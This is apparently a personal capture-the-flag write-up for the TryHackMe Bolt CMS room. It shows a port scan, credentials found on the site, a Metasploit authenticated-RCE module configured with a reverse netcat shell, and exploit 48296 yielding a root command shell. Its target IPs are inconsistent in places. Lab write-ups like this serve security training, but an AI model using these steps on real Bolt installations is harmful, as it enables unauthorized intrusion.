






# Hacker vs. Hacker

## Room Information

- **Room URL:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)
- **Date Completed:** 2025-12-11

## Overview
A hero is unleashed.  
Learning about metasploit-framework.

## New Tools
### metasploit-framework
Metasploit Framework is a tool that allows you to exploit the web application.

[https://www.metasploit.com/](https://www.metasploit.com/)

```shell
$ msfconsole
```

## Reconnaissance
### Scan ports
```shell
$ rustscan -a 10.49.131.118 | tee rustscan.log

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64
```

### Access the website
http://10.49.131.118:8000

I found the website is running with Bolt CMS.


Also, finding the username and password in the website.

username: bolt
password: boltadmin123





### Login the bolt as admin

http://10.49.131.118:8000/bolt

Bolt version: 3.7.1



### Search exploits for bolt

There's an exploit which allows authenticated RCE.

EDB-ID: 48296



Download the exploit with the -m option.

### Search exploits for bolt with metasploit



## Exploitation
### Use the exploit

Choose the exploit by index.

```shell
msf > use 0
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(unix/webapp/bolt_authenticated_rce) > 
```

See the options.



Set the options.

```shell
msf exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123
PASSWORD => boltadmin123
msf exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.48.149.149
RHOSTS => 10.49.131.118
msf exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf exploit(unix/webapp/bolt_authenticated_rce) > set LHOST <attack-machine-ip>
LHOST => <attack-machine-ip>
```

## Get user flag


## Completed


## Reverse shell without metasploit-framework

```shell
# Download the exploit
$ searchsploit -m 48296

# Execute the exploit
$ python3 48296.py http://10.48.149.149:8000 bolt boltadmin123
[+] SESSION INJECTION
[-] Not found.
[+] FOUND  : test2
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
[-] Not found.
Enter OS command , for exit 'quit' : id
uid=0(root) gid=0(root) groups=0(root)
```

## Used Tools

- rustscan
- searchsploit
- metasploit-framework

## References
- [https://www.youtube.com/watch?v=d-p0MRh2aMw](https://www.youtube.com/watch?v=d-p0MRh2aMw)
